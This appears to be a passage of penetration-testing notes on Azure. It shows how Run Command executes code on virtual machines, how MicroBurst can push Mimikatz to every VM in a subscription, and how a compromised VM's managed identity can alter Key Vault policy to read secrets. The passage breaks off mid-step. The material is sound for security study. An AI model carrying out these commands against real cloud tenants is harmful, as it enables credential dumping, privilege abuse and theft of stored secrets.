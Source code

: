 ```
- Azure CLI
- PowerShell. 
```
PS C:\> Invoke-AzureRmVMRunCommand 	
```

--> Using **Run Command** commands can be executed even when the VM is otherwise unreachable (e.g. if the RDP or SSH ports are closed).  
--> **Run Command** execute commands in elevated privileges.  

**Privilege required** : *Microsoft.Compute/virtualMachines/runCommand/action*  
--> Virtual machine contributor  

It is also possible to use MicroBurst with **Invoke-AzureRmVMBulkCMD** module to run command on all the virtual machine in whole subscription:  
```
PS C:\ > Import-module MicroBurst.psm1  
PS C:\ > Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```

#### Managed Identities - Azure VM
Managed Identities can be used to access Azure Key Vaults and storage accounts.  

--> Accessing these resources can only be achieved if the correct RBAC or directory role has ben assigned. If the managed identites doesn't have any role assignements, it is not going to work  

- https://m365internals.com/2021/11/30/lateral-movement-with-managed-identities-of-azure-virtual-machines/
- https://www.netspi.com/blog/technical/cloud-penetration-testing/azure-privilege-escalation-using-managed-identities/

![managedidentites](https://docs.microsoft.com/en-us/azure/active-directory/managed-identities-azure-resources/media/how-managed-identities-work-vm/data-flow.png)

##### Accessing Key Vault
- In case the Managed Identity of a compromised Linux/Windows VM has Owner rights for exemple we can try to access Key Vaults and secrets within the same resource group.

1. We can use this managed identity from the compromised VM
```
az login --identity
```

2. List Key Vault
```
az keyvault list
```

3. List secret from Azure KeyVault
```
az keyvault secret list --vault-name mysecretkeyvault01  
```

--> This will not be possible as the Managed Identity has only Owner write over the resource group where the Key Vault is stored. But as Owner role, the Managed Identity has enough permission to modify access policy of the Azure Key Vault and grant **list** permission for secrets.  

4. Setting List permission over the Key Vault
```
az keyvault set-policy -n mysecretkeyvault01 --secret-permissions get list --object-id ae46b8fd-6070-49c1-be69-300c771a97f0
```

5. Obtaining secrets from Key Vault with correct **List** permission
```
